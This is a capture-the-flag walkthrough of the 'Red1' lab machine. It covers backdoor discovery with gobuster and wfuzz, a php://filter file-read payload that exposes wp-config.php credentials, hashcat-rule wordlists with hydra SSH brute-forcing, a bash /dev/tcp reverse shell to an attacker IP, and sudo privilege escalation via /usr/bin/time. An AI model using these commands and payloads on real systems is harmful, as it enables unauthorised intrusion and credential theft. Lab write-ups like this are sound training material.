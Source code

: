 # Red1
**IP: 10.0.4.7**
<br>
First of all, I did an `nmap` scan and found that there were two open ports:<br>
> 80 _apache_ <br>
> 22 _ssh_

The site looks pretty simple. But I found some things in `robots.txt`<br>

```
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php

Sitemap: http://redrocks.win/wp-sitemap.xml
```
I went to the sitemap and found that there was a user named:
administrator

Checked it on the admin-login page and looks like it works.
<br>
Going to the site we know that there is a backdoor. The hacker said so.
<br>
Let's look for backdoors. We have a good wordlist with backdoor names in seclists.<br>
`gobuster dir -u http://10.0.4.7/ -w CommonBackdoors-PHP.fuzz.txt`<br>
Looks like we found one:<br>
```
/NetworkFileManagerPHP.php (Status: 500) [Size: 0]
```
There is nothing if we go there. Therefore, we can try to put different requests like:<br>
`/NetworkFileManagerPHP.php?search=qwe`<br>
We can use `wfuzz` to do it.<br>
```
wfuzz -c -u "http://redrocks.win/NetworkFileManagerPHP.php?FUZZ=test" -w /usr/share/wfuzz/wordlist/general/big.txt --hh 00
```
We will find that the word `key` works.<br>
Try `http://redrocks.win/NetworkFileManagerPHP.php?key=/etc/passwd` and you will get a good result.

We know that this is a WordPress site. Also, we know that WordPress sites have wp-config.php file where there is a lot of interesting information. If we try to access it we won't see it since our browser automatically translates php code. However, we can find a PHP base64 filter on PlayloadsAllTheThings. https://github.com/swisskyrepo/PayloadsAllTheThings 
Here is an example:<br>
```
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
```
Modify it for ourselves:<br>
```
http://redrocks.win/NetworkFileManagerPHP.php?key=php://filter/convert.base64-encode/resource=wp-config.php
```
It will give us a base64 string which we can decode and get the original wp-config.php code.<br>
Here is an interesting piece of code:<br>
```
...
/** MySQL database username */
define( 'DB_USER', 'john' );

/** MySQL database password */
define( 'DB_PASSWORD', 'R3v_m4lwh3r3_k1nG!!' );
...
```
We know that there is an open ssh port. If we try to use these credentials to ssh it does not work.<br>
Also, we know that there is a backdoor file. Let's download it and see what it looks like.<br>
`http://redrocks.win/NetworkFileManagerPHP.php?key=php://filter/convert.base64-encode/resource=NetworkFileManagerPHP.php`<br>
Got a piece of code with another base64 line that says:<br>
`That password alone won't help you! Hashcat says rules are rules`<br>
And this is kind of a hint.<br>
We know that `hashcat` is a tool for password brute-forcing. We can see the work "rules" in the text which brings an assumption that we need to use a rule. _That is where we need to get acquainted with password-cracking rules._ Also, we can make an assumption that the rule is best64 since our hint was encoded in base64.<br>
We are going to take the password that we found in `wp-config.php`, put it in fule `pwd.txt`, and generate a custom wordlist with `hashcat` and a rule called `best64`.<br>
Our command will look like this:<br>
```
hashcat pwd.txt -r /usr/share/hashcat/rules/best64.rule --stdout > custom_wordlist.txt
```
Now, we have got our custom wordlist. Let's try to brute-force into `ssh`.<br>
```hydra -l john -P custom_wordlist.txt ssh://10.0.4.7```
> [22][ssh] host: 10.0.4.7   login: john   password: R3v_m4lwh3r3_k1nG!!02<br>
Looks like it worked.<br>

When we try to use `cat` command it runs `vi`, but when we use `vi` it runs `cat`.<br>
We can see that there are three users:<br>
> ippsec<br>
> john <br>
> oxdf <br>

After a couple of minutes using the `ssh shell` the connection was closed. The attacker made a script that kicked us out. The same password does not work, but we can brute force it again.<br>

### Upgrading our shell so we do not get kicked out.
1. Start a nc listener. `nc -lvnp 4444`
2. Run a simple reverse-shell on the victim machine. `bash -i >& /dev/tcp/10.0.4.4/4444 0>&1`
3. `python3 -c 'import pty;pty.spawn("/bin/bash")'` in our new reverse-shell.
4. *ctrl-z*
5. `stty raw -echo; fg`
9. `export TERM=xterm`
So now we have our new shell. Let's look at how we can escalate our privileges.<br>
The simplest way is to run `sudo -l` <br> 
```
User john may run the following commands on red:
    (ippsec) NOPASSWD: /usr/bin/time
```
This is what we got.
Go to https://gtfobins.github.io/gtfobins and find what we can do with /usr/bin/time.<br>
`sudo /usr/bin/time /bin/sh`<br>
However, by default sudo will try to run a tool with the privileges of the root user, but we have only privileges of ippsec, so we need to specify our user, so our command will look like:<br>
`sudo -u ippsec /usr/bin/time /bin/sh`<br>
_It is better to escalate our privileges to *ippsec* before we upgrade our shell_<br>
Let's look can we escalate our privileges to root.<br>
I used the next command to find all the folders where I have permission to write.<br>
`find / -writable -type d 2>/dev/null`<br>
It gave a couple of them, but the interesting one for me was:<br>
> /var/www/wordpress/.git 

If we go there, there are two files owned by root.<br>
I assume that the root user runs the rev file occasionally. But let's look at the processes to make sure.<br>
I am going to use pspy64s to look at the processes. https://github.com/wildkindcc/Exploitation/blob/master/00.PostExp_Linux/pspy/pspy64s.
I downloaded it to my machine, started the Python HTTP server, and downloaded it to the victim's machine.<br>
For some reason, it says that there is no storage left and I cannot download anything to the machine. However, the only thing that I had to do was replace the rev script with my own which I had permission to do. My own script would be a simple reverse shell coded in C. After root would run the rev script again I would get my root reverse-shell.








